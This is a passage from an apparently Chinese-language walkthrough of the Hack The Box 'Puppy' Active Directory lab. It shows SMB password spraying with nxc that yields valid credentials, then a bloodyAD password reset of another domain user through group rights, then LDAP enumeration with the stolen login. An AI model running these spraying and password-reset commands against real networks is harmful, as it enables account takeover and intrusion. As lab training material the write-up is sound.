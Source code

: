 ```bash
SMB         10.10.11.70     445    DC               [-] PUPPY.HTB\steph.cooper_adm:HJKL2025! STATUS_LOGON_FAILURE
SMB         10.10.11.70     445    DC               [-] PUPPY.HTB\Administrator:Antman2025! STATUS_LOGON_FAILURE
SMB         10.10.11.70     445    DC               [-] PUPPY.HTB\Guest:Antman2025! STATUS_LOGON_FAILURE
SMB         10.10.11.70     445    DC               [-] PUPPY.HTB\krbtgt:Antman2025! STATUS_LOGON_FAILURE
SMB         10.10.11.70     445    DC               [-] PUPPY.HTB\levi.james:Antman2025! STATUS_LOGON_FAILURE
SMB         10.10.11.70     445    DC               [+] PUPPY.HTB\ant.edwards:Antman2025!
```

成功了一个账户，而这个用户刚好是高价值用户，我们在攻击路径的高价值图中可以看到它：


![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/85e2e737b5e543bc9ce93e1138cab83f.png)


edwards所在的组完全控制silver，可修改一下密码`passwd123!`：

```bash
┌──(root㉿kali)-[/home/kali/Desktop]
└─# bloodyAD -d puppy.htb -u ant.edwards -p Antman2025! --host 10.10.11.70 set password adam.silver passwd123!
[+] Password changed successfully!
```

然后发现登不上去，是因为账户disabled：

```bash
┌──(root㉿kali)-[/home/kali/Desktop]
└─# nxc smb 10.10.11.70 -u adam.silver -p passwd123!
SMB         10.10.11.70     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)               
SMB         10.10.11.70     445    DC               [-] PUPPY.HTB\adam.silver:passwd123! STATUS_ACCOUNT_DISABLED
```

## ldapsearch和bloodAD

这里使用`ldapsearch`的dn也可查看（`userAccountControl: 66050`），以及可以查看adam.silver的完整可分辨名称：

```bash
┌──(root㉿kali)-[/home/kali/Desktop]
└─# ldapsearch -x -H ldap://10.10.11.70 -D 'ant.edwards@puppy.htb' -w 'Antman2025!' -b "dc=puppy,dc=htb" "(sAMAccountName=adam.silver)" dn
# extended LDIF
#
# LDAPv3
# base <dc=puppy,dc=htb> with scope subtree
# filter: (sAMAccountName=adam.silver)
# requesting: dn 
#

# Adam D. Silver, Users, PUPPY.HTB
dn: CN=Adam D. Silver,CN=Users,DC=PUPPY,DC=HTB

# search reference
ref: ldap://ForestDnsZones.PUPPY.HTB/DC=ForestDnsZones,DC=PUPPY,DC=HTB

# search reference
ref: ldap://DomainDnsZones.PUPPY.HTB/DC=DomainDnsZones,DC=PUPPY,DC=HTB

# search reference
ref: ldap://PUPPY.HTB/CN=Configuration,DC=PUPPY,DC=HTB

```